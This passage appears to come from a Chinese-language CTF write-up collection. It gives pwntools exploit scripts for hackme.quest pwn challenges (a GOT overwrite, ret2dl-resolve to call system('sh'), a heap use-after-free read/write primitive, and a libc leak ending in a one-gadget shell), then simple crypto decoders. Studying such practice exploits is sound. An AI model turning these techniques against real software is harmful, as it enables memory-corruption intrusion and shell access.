    p.sendline(str(init_addr-move_addr).encode())
def tict_change(addr,value):
    p.recvuntil(b"Input move (9 to change flavor): ")
    p.sendline(b"9")
    p.sendline(value)
    p.recvuntil(b"Input move (9 to change flavor): ")
    p.sendline(str(addr-move_addr).encode())


elf=ELF("./tictactoe")
puts_got = elf.got["puts"]
tict_init()

change_value=0x8048C46
change_bytes=struct.pack("<I",change_value)
print(change_bytes)
for i in range(len(change_bytes)):
    tict_change(puts_got+i,change_bytes[i:i+1])
p.recv()
p.sendline(b"0")
p.recv()
p.sendline(b"0")
p.recv()
p.sendline(b"0")
p.recv()
p.sendline(b"0")
print(p.recv())
p.close()
```

#### 79 Pwn    tictactoe-2

write up：

##### ##ret2dl-resolve

```
程序分为静态链接跟动态链接，因为好多库函数在程序中并不一定都用到，所以在处理动态链接程序的时候，elf文件会采取一种叫做延迟绑定（lazy binding）的技术，也就是当我们位于动态链接库的函数被调用的时候，编译器才会真正确定这个函数在进程中的位置,
```

```
在 Linux 中，程序使用 _dl_runtime_resolve(link_map_obj, reloc_offset) 来对动态链接的函数进行重定位。
```

`ret2dl-resolve`利用，把`system`函数的地址写到`memset`函数对应的`got`表中：

```assembly
0804AF54    Elf32_Dyn <5, <80482F8h>> ; DT_STRTAB
08048298    Elf32_Sym <offset aMemset - offset byte_80482F8, 0, 0, 12h, 0, 0> ; "memset"
0804833C    aMemset         db 'memset',0
```

```c
memset 对应的 `Elf32_Sym` 指针 < 44h, 0, 0, 12h, 0, 0>
.dynstr = DT_STRTAB->Elf32_Addr = 0x80482F8
sym->st_name = 0x44
.dynstr + sym->st_name = 0x804833C  aMemset
```

```c
pwndbg> search system
Searching for value: 'system'
tictactoe       0x804900c jae 8049087h /* 'system' */
tictactoe       0x804a00c 'system'
```

修改`DT_STRTAB->Elf32_Addr`值即可。

```c
0x804a00c - 0x44 = 0x8049fc8
```

```python
import struct
from pwn import *

#context.log_level="debug"
#p=process("./tictactoe")
p=remote("ctf.hackme.quest",7714)

move_addr=0x804B056
init_addr=0x804B048
def tict_init():
    p.recvuntil(b"Play (1)st or (2)nd? ")
    p.sendline(b"1")

    p.recvuntil(b"Input move (9 to change flavor): ")
    p.sendline(b"9")
    p.sendline(b"\x00")
    p.recvuntil(b"Input move (9 to change flavor): ")
    p.sendline(str(init_addr-move_addr).encode())
def tict_change(addr,value):
    p.recvuntil(b"Input move (9 to change flavor): ")
    p.sendline(b"9")
    p.sendline(value)
    p.recvuntil(b"Input move (9 to change flavor): ")
    p.sendline(str(addr-move_addr).encode())

tict_init()
change_bytes1=b"sh\x00"

STRTAB=0x0804AF58
memset_sym_stname=0x44
system_addr=0x804a00c
new_elf_string_table=system_addr-memset_sym_stname
change_bytes2 = struct.pack("<I",new_elf_string_table)
print(change_bytes2)

tict_change(init_addr,change_bytes1[0:1])
tict_change(STRTAB,change_bytes2[0:1])
tict_change(init_addr + 1,change_bytes1[1:2])
tict_change(STRTAB + 1,change_bytes2[1:2])
tict_change(init_addr+2,change_bytes1[2:3])
tict_change(STRTAB + 2,change_bytes2[2:3])
tict_change(STRTAB + 3,change_bytes2[3:4])

p.recv()
p.sendline(b"0")
p.recv()
p.sendline(b"ls")
p.interactive()
```

#### 80 Pwn    bytebucket

write up：

```c
bucket *__fastcall malloc_bucket(int size, __int64 name)
{
  bucket *result; // rax
  bucket *bucket_struct; // [rsp+18h] [rbp-8h]

  bucket_struct = (bucket *)malloc(8 * (size + 4LL));
  if ( (unsigned int)set_bucket_name(bucket_struct, (const char *)name) )
  {
    bucket_struct->next = 0LL;
    bucket_struct->size = size;
    result = bucket_struct;
  }
  else
  {
    free(bucket_struct);
    result = 0LL;
  }
  return result;
}
```

`bucket`结构：

```c
struct bucket{
    bucket* next;
    int64 size;
    char[16] name;
    char* slot0;
    char* slot1;
    ...
}
```

内存泄漏：

当`bucket->name`的长度为`0x10`时，`printf("Bucket[%d]->name = \"%s\";\n", (unsigned int)++v2, i->name)`会把`bucket->slot0`的地址泄露出来。通过计算偏移，能够得到`flag`的地址。

任意地址读及受限的任意地址写：

删除`bucket`的某个`slot`，释放掉`slot content`占用的空间，但是里面的内容仍然保留。如果这个空间`=40`，那么新建的`size=1`的`bucket`会占用这个空间。

1. 新建`size=1`的`bucket_0`，设置`slot0_size=40`，`slot0=b"a"*32+p64(addr)`
2. `drop data`删除掉`bucket_0->slot0`。
3. 新建`size=1`的`bucket_1`，设置`slot0_size=0`。
4. `show data`读取`bucket_1->slot0`的内容既是`addr`地址上的内容。
5. `edit data`可以修改`addr`上的内容，但是修改的长度需小于或等于`strlen(*addr)-1`。
6. 当修改的长度大于`strlen(*addr)-1`的时候会`realloc`。特殊情况下(`addr`是申请的堆空间)，`addr==realloc(strlen(*addr))`，修改长度可以等于`strlen(*addr)`。

```python
from pwn import *

#context.log_level="debug"
#p = process("./bytebucket",env={"FLAG1":"flag{env}"})
p = remote("ctf.hackme.quest",7722)


def make_bucket(name,slot_sizes,slot_contents):
    size=len(slot_sizes)
    p.sendlineafter(b"What to do >> ",b"1")
    p.sendlineafter(b"Size of bucket >> ",str(size).encode())
    p.sendlineafter(b"Name of bucket >> ",name)
    for i in range(size):
        p.sendlineafter(b"Size of content >> ",str(slot_sizes[i]).encode())
        if slot_sizes[i]!=0:
            p.sendafter(b"Content of slot >> ",slot_contents[i])

def list_bucket():
    p.sendlineafter(b"What to do >> ",b"2")

def find_bucket(name):
    p.sendlineafter(b"What to do >> ",b"3")
    p.sendlineafter(b"Bucket name to find",name)

def drop_bucket():
    p.sendlineafter(b"What to do >> ",b"5")

def open_bucket():
    p.sendlineafter(b"What to do >> ",b"6")

def show_data():
    p.sendlineafter(b"What to do >> ",b"1")

def drop_data(line):
    p.sendlineafter(b"What to do >> ",b"3")
    p.sendlineafter(b"Which line of data >> ",str(line).encode())

def rename(name):
    p.sendlineafter(b"What to do >> ",b"4")

def close():
    p.sendlineafter(b"What to do >> ",b"5")

def read_addr(addr):
    make_bucket(b"bucket_read_0",[40],[b"a"*32+p64(addr)])
    open_bucket()
    drop_data(0)
    close()
    
    make_bucket(b"bucket_read_1",[0],[None])
    open_bucket()
    show_data()
    p.recvuntil(b"Row[0]: ")
    value=p.recvuntil(b"\n+------------------+\n| bucket_read_1",drop=True)
    close()
    return value

make_bucket(b"a"*16,[8],[b"test"])
list_bucket()
p.recvuntil(b"a"*16)
leak_data  = p.recvuntil(b"\";",drop=True)
slot0_addr = u64(leak_data.ljust(8,b"\x00"))
flag_addr  = slot0_addr - 0xe0
print("flag_addr: 0x%x"%flag_addr)

value=read_addr(flag_addr)
print(value)
p.close()
```

#### 81 Pwn    bytebucket-2

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

##### ##Unsorted Bin Leak

```
https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/unsorted-bin-attack/#unsorted-bin-leak
```

基本来源

1. 当一个较大的 `chunk` 被分割成两半后，如果剩下的部分大于 `MINSIZE`，就会被放到 `unsorted bin` 中。

2. 释放一个不属于 `fast bin` 的 `chunk`，并且该 `chunk` 不和 `top chunk` 紧邻时，该 `chunk` 会被首先放到 `unsorted bin` 中。

3. 当进行 `malloc_consolidate` 时，可能会把合并后的 `chunk` 放到 `unsorted bin` 中，如果不是和 `top chunk` 近邻的话。

##### ##environ

在 Linux 系统中，glibc 的环境指针 environ(environment pointer) 为程序运行时所需要的环境变量表的起始地址，环境表中的指针指向各环境变量字符串。从以下结果可知环境指针 environ 在栈空间的高地址处。因此，可通过 environ 指针泄露栈地址。

##### ##libc one gadget

```assembly
                mov     rax, cs:environ_ptr
                lea     rsi, [rsp+1E8h+var_178]
                lea     rdi, aBinSh     ; "/bin/sh"
                mov     rdx, [rax]
                call    execve
```

- `execve("/bin/sh",null,environ_ptr)`
- `process 3658 is executing new program: /bin/dash`

```python
import struct
from pwn import *

#context.log_level="debug"
#p = process("./bytebucket",env={"FLAG1":"flag{env}"})
#libc=ELF("libc-2.27.so")
#libc_one_gadget=0x10a2fc
p = remote("ctf.hackme.quest",7722)
libc=ELF("libc-2.23.so.x86_64")
libc_one_gadget=0xf0897

def make_bucket(name,slot_sizes,slot_contents):
    size=len(slot_sizes)
    p.sendlineafter(b"What to do >> ",b"1")
    p.sendlineafter(b"Size of bucket >> ",str(size).encode())
    p.sendlineafter(b"Name of bucket >> ",name)
    for i in range(size):
        p.sendlineafter(b"Size of content >> ",str(slot_sizes[i]).encode())
        if slot_sizes[i]!=0:
            p.sendafter(b"Content of slot >> ",slot_contents[i])

def list_bucket():
    p.sendlineafter(b"What to do >> ",b"2")

def find_bucket(name):
    p.sendlineafter(b"What to do >> ",b"3")
    p.sendlineafter(b"Bucket name to find",name)

def drop_bucket():
    p.sendlineafter(b"What to do >> ",b"5")

def open_bucket():
    p.sendlineafter(b"What to do >> ",b"6")

def exit_bucket():
    p.sendlineafter(b"What to do >> ",b"8")

def show_data():
    p.sendlineafter(b"What to do >> ",b"1")

def edit_data(line,content_size,content):
    p.sendlineafter(b"What to do >> ",b"2")
    p.sendlineafter(b"Which line of data >> ",str(line).encode())
    p.sendlineafter(b"Size of new content >> ",str(content_size).encode())
    if content_size!=0:
        p.sendafter(b"New content >> ",content)

def drop_data(line):
    p.sendlineafter(b"What to do >> ",b"3")
    p.sendlineafter(b"Which line of data >> ",str(line).encode())

def rename(name):
    p.sendlineafter(b"What to do >> ",b"4")

def close():
    p.sendlineafter(b"What to do >> ",b"5")

def read_addr(addr):
    make_bucket(b"bucket_read_0",[40],[b"a"*32+p64(addr)])
    open_bucket()
    drop_data(0)
    close()
    
    make_bucket(b"bucket_read_1",[0],[None])
    open_bucket()
    show_data()
    p.recvuntil(b"Row[0]: ")
    value=p.recvuntil(b"\n+------------------+\n| bucket_read_1",drop=True)
    close()
    return value
def write_addr(addr,new_value,new_value_len):
    make_bucket(b"bucket_read_0",[40],[b"a"*32+p64(addr)])
    open_bucket()
    drop_data(0)
    close()
    
    make_bucket(b"bucket_read_1",[0],[None])
    open_bucket()
    show_data()
    p.recvuntil(b"Row[0]: ")
    value=p.recvuntil(b"\n+------------------+\n| bucket_read_1",drop=True)
    assert len(value)>new_value_len #avoid realloc
    content=p64(new_value)[:new_value_len]
    edit_data(0,new_value_len,content)
    close()
    return value

make_bucket(b"a"*16,[0x410,8],[b"test",b"test"])
list_bucket()
p.recvuntil(b"a"*16)
leak_data  = p.recvuntil(b"\";",drop=True)
addr_slot0 = u64(leak_data.ljust(8,b"\x00"))
addr_unsortedbin  = addr_slot0 + 0x60
print("unsortedbin_addr: 0x%x"%addr_unsortedbin)

open_bucket()
drop_data(0)   ## unsortedbin chunk
close()
value=read_addr(addr_unsortedbin)
addr_libc=u64(value.ljust(8,b"\x00"))-libc.sym['__malloc_hook']
addr_libc=addr_libc&0xffffffffffffff00
print("libc_addr: 0x%x"%addr_libc)

addr_environ = addr_libc + libc.symbols["environ"]
value=read_addr(addr_environ)
addr_stack=u64(value.ljust(8,b"\x00"))
print("addr_stack: 0x%x"%addr_stack)
addr_ret=addr_stack-0xf0
print("addr_ret: 0x%x"%addr_ret)

libc_one_gadget = addr_libc + libc_one_gadget
write_addr(addr_ret,libc_one_gadget,4)

exit_bucket()
p.sendline(b"ls")
p.interactive()
```

#### 82 Crypto    easy

```python
import base64
import binascii

hex_data="526b78425233745561476c7a49476c7a4947566863336b7349484a705a3268305033303d"
data=binascii.unhexlify(hex_data)
print(base64.b64decode(data))
```

#### 83 Crypto    r u kidding

##### ##Caesar cipher

```python
import struct
def decrypt(encrypted,key):
    result=b''
    for each in encrypted:
        if each>=97 and each<=122: 
            each=(each-97-key)%26+97
        elif each>=65 and each<=90: 
            each=(each-65-key)%26+65
        result=result+struct.pack(">B",each)
    return result

encrypted=b"EKZF{Hs'r snnn dzrx, itrs bzdrzq bhogdq}"
plain_txt=b"FLAG"

key=(encrypted[0]-plain_txt[0])%26
for i in range(len(plain_txt)):
    assert key==(encrypted[i]-plain_txt[i])%26
plain_txt=decrypt(encrypted,key)
print(plain_txt)
```

#### 84 Crypto    not hard

write up：

提示使用`pydoc3 base64`：

```
Help on module base64:

NAME
    base64 - Base16, Base32, Base64 (RFC 3548), Base85 and Ascii85 data encodings
```

```python
import base64

encrypted="Nm@rmLsBy{Nm5u-K{iZKPgPMzS2I*lPc%_SMOjQ#O;uV{MM*?PPFhk|Hd;hVPFhq{HaAH<"
result1=base64.b85decode(encrypted)
print(result1)
result2=base64.b32decode(result1)
print(result2)
```

#### 85 Crypto    classic cipher 1

##### ##substitution cipher (替换密码)

在单表替换加密中，所有的加密方式几乎都有一个共性，那就是明密文一一对应。所以说，一般有以下两种方式来进行破解。

- 在密钥空间较小的情况下，采用暴力破解方式
- 在密文长度足够长的时候，使用词频分析
- 当密钥空间足够大，而密文长度足够短的情况下，破解较为困难。

在线解密工具：

```
https://www.quipqiup.com/
https://www.guballa.de/substitution-solver
```

#### 86 Crypto    classic cipher 2

##### ##vigenere cipher

维吉尼亚密码是一种简单的多表代换密码(由26个类似的Caesar密码的代换表组成)，即由一些偏移量不同的恺撒密码组成，这些代换在一起组成了密钥。

在线解密工具：

```
https://www.guballa.de/vigenere-solver
```

#### 87 Crypto    easy AES

write up：

对称加密密码，在已知密钥`b'Hello, World...!'`，密文`b'Good Plain Text!'`，可以解密求出明文。

```python
#!/usr/bin/env python3
import base64
from Crypto.Cipher import AES  # pip3 install pycrypto

def main(data):
    c = AES.new(b'Hello, World...!',AES.MODE_ECB)
    plain_text=c.decrypt(b'Good Plain Text!')

    c2 = AES.new(plain_text[::-1], mode=AES.MODE_CBC, IV=b'1234567887654321')

    decrypted = c2.decrypt(data)

    with open('output.jpg', 'wb') as fout:
        fout.write(decrypted)

main(base64.b64decode('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